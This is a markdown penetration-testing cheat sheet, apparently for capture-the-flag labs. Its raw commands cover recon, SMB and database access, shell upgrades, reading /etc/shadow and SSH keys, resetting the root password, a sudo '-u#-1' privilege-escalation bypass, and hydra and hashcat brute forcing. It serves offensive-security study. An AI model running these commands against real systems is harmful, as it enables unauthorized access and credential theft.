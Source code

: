 # step by step

## osint
https://dnsdumpster.com/
https://web.archive.org/
https://dorksearch.com/

## recon
ping {ip}
whois {domain}
nslookup {ip}
dig {ip}
dnsrecon -d {domain} -a
host {domain}

## target scanning
sudo nmap --open #-p- for full port scan #-sV version detection #-sC default scripts #-Pn host discovery

subfinder -d {domain}
dnsgen urls.lst | httprobe
httpx
whatweb

## remote exploits
### http/https
if seeing any url with a number change the number

### ftp
ftp anonymous@{IP}

### smb
smbmap -H {IP} #list shares on target with anomouse
smbmap -H {IP} -u {username} #guest/administrator
smbclient -L={IP} -U Administrator #try a login
smbclient //{IP}/{the\ share\ name} #connect to specifiec share
RECURSE ON
PROMPT OFF
cd {dir}
mget /Policies/*/MACHINE/Preferences/Groups/Groups.xml
mget *
smbget -R smb://{ip}/anonymous

### psql
psql -U {USER} -h {IP} -p 5432
\l #list databases
\c {name} #connect to a database
\dt #list tables
select * from {table} #show table content

### finding github source
when finding the source code,
compare the changes,
sometimes in this there might be found the difference

## getting connections
ssh -t {user}@{ip} /bin/sh
xfreerdp /v:{IP} /u:{USER} /p:{PASSWORD}
telnet {ip} {port}

### basic shell -> shell++
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```
script /dev/null -c bash
```
ctrl+Z and then
```
stty raw -echo && fg
```

### recon from a shell
whoami
id #default groups: audio video plugdev cdrom dip floppy netdev
groups
uname -a
cat /etc/sudoers
cat */.bash_history
cat */.bashrc
cat /etc/sudoers
cat /etc/sudoers.d
cat /etc/crontab
cat /var/spool/*
cat /etc/systemd/system
cat */.ssh/
cat /opt/
cat /etc/passwd
cat /etc/shadow

ss -tln #identify localports
ss -tla #identify name

find / -user root -perm /4000 2>/dev/null
find / -type f -perm -04000 -ls 2>/dev/null #find tools that have an suid, look these up on https://gtfobins.github.io/
chmod -s {found_binary} # to disallow others from abusing it

pspy32 #spy tool, open it on a host, login on second terminal, and maybe gain stuff
echo -e "hackerpassword\nhackerpassword" | passwd root

grep -r "THM{" / >> temp_flags.txt 2>/dev/null

nano /etc/passwd #shells -> /sbin/nologin

### sudo -L
https://gtfobins.github.io/#+sudo
sudo -u#-1 /bin/bash

### ls *.ssh/ 
look for keys and try to login with them to other users
ssh {user}@{ip} -i {keyfile}

ssh2john {keyfile}>hash

#### pgp key decryption
gpg2john {file}.asc > hash
john --format=gpg --wordlist=/usr/share/wordlist/rockyou.txt hash
gpg --import {file}.asc
gpg --decrypt {file}.gpg

### windows
cd C:\Program Files (x86)
dir

Get-ExecutionPolicy
Set-ExecutionPolicy -ExecutionPolicy Bypass

PrivescCheck.ps1

## cracking hashes
zip2john file.zip>{hashfile}
john {hashfile}
john {hashfile} --show

hashcat -a 0 -m 20 {hashfile} /usr/share/wordlists/rockyou.txt

## brute forcing
hydra -L users.txt -P pass.txt {IP} ssh
hydra -l mike -P /usr/share/wordlists/rockyou.txt -vV {ip} ftp

gobuster dir --url {ip} --wordlist /usr/share/wordlists/dirb/big.txt
gobuster dns -d {domain} --wordlist /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt

feroxbuster -u {ip}

ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://{domain}/ -H "HOST:FUZZ.{domain}" -fw 1 #vhost
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://{domain} -H 'Host: FUZZ.{domain}' -fw 4 -t 100
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -u http://{domain} -H 'Host: http://{domain}/FFUZ' -ic -t 100


